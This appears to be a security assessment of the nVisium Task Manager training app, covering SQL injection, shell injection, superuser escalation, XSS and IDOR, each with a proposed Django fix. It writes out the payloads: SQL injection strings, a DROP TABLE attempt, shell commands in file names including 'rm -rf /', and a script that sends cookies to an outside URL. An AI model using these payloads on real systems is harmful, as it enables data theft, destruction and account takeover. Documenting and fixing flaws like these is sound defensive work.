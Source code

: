 # Vulnerability Report on nVisium Task Manager

### Injection

#### Exposure

Looked for vulnerabilities in any form view and found that the project file upload form directly includes form
input in SQL statements. The form exists at this url:

.../taskManager/<project_id>/upload/

and has a 'File Name' field where you can insert both SQL and shell commands.

##### Injecting SQL

```<filename>',(select <whatever you want> from <some table> where <some condition>),<your project id>);--```

With this line, you can inject SQL queries directly into the database and gain access to a variety
of information. For example, you get a user's email or (hashed) password, you can get usernames, you can get
information on projects and tasks. Tables I accessed:

* auth_user
* taskManager_project
* taskManager_task
* taskManager_userprofile
* taskManager_file

All of the information shows up in the file's path.

I tried:

```droptable',(select title from taskManager_project where id=10),10); Drop table taskManager_project;--```

to try and drop a table, but an exception was raised saying I could only execute one statement at a time.

##### Injecting shell commands

```; ls /```

Upload a file with this as the file name and you are shown all root directories and files.
You could potentially inject "; rm -rf /" which would delete everything on the system.

#### Repair

In the 'upload' view in taskManager/views.py:

To inhibit SQL injection, use Django's built in validation tools. Replace
```
curs = connection.cursor()
            curs.execute(
                "insert into taskManager_file ('name','path','project_id') values ('%s','%s',%s)" %
                (name, upload_path, project_id))
```
with
```
file = File(
    name=name,
    path=upload_path,
    project=proj
)

file.save()
```

To inhibit shell injection, don't name files based directly on user input. Replace
```
name = request.POST.get('name', False)
```
with
```
name = ''.join(random.choice(string.lowercase) for i in range(length))
```

### Broken Auth and Session Management

#### Exposure

The UserForm built on the Django user class doesn't exclude the 'is_superuser' field.
In the browser, I added another input field to the registration form
```
<input name='is_superuser' type='checkbox' checked>
```
which made my new user a superuser. I can create new projects (I previously could but now I get
a button), I can manage permissions, etc.

#### Repair

You could add 'is_superuser' to the 'excludes' blacklist, or you could explicitly state
which fields should be allowed. To do the latter, in UserForm within taskManager/forms.py, replace
```
exclude = ['groups', 'user_permissions', 'last_login', 'date_joined', 'is_active']
```
with
```
fields = ('username', 'first_name', 'last_name', 'email', 'password')
```

### Cross-site Scripting

#### Exposure

In 'base_backend.html', the user's username is inserted into the html document with the 'safe' filter.
So any code in the username will be executed. I inserted:
```
myname</span><script>document.location= 'http://www.google.com?foo='+document.cookie</script>
```
as my username, but my browser console raised an error saying the XSS Auditor refused to execute the script
since it's source code was found in the request. But if I then just go somewhere else, say the homepage,
the page renders my username and in doing so runs the script redirecting me to google with the cookie attached.
A very similar script can be inserted into the create/edit task form with the same results.

A similar vulnerability exists in the search page where you can insert code into the href of the refresh button,
but I couldn't get around the XSS Auditor in this case.

#### Repair

Really just get rid of the 'safe' filter.
In 'search.html', 'task_details.html', and 'base_backend.html', replace
```
{<some data> | safe}
```
with
```
{<some data>}
```

### Insecure Direct Object References

#### Exposure

Other than a couple of protected pages, I can access any page I want and I can edit anything I want.
For example, I can access the admin's profile, change their email to mine, say I forgot my password, then change
their password and take over the account.

#### Repair

There are quite a lot of view functions lacking user authentication. For each of these, the appropriate
check is required to ensure that the user has permission to view or do what they are trying to.

For example, in the project file 'upload' view, replace
```
if request.method == 'POST':

    proj = Project.objects.get(pk=project_id)
    form = ProjectFileForm(request.POST, request.FILES)

    ...

    return redirect('/taskManager/' + project_id +
                                '/', {'new_file_added': True})

else:
    form = ProjectFileForm()
return render_to_response(
    'taskManager/upload.html', {'form': form}, RequestContext(request))
```
with
```
if request.user.has_perm('project_edit'):
    if request.method == 'POST':

        proj = Project.objects.get(pk=project_id)
        form = ProjectFileForm(request.POST, request.FILES)

        ...

        return redirect('/taskManager/' + project_id +
                                '/', {'new_file_added': True})

    else:
        form = ProjectFileForm()
    return render_to_response(
        'taskManager/upload.html
else:
    return redirect('/taskManager/', {'permission': False})
```

Other permissions include:
* 'task_delete'
* 'task_edit'
* 'task_add'
* 'project_delete'
* 'project_edit'
* 'project_add'
* 'user_edit'
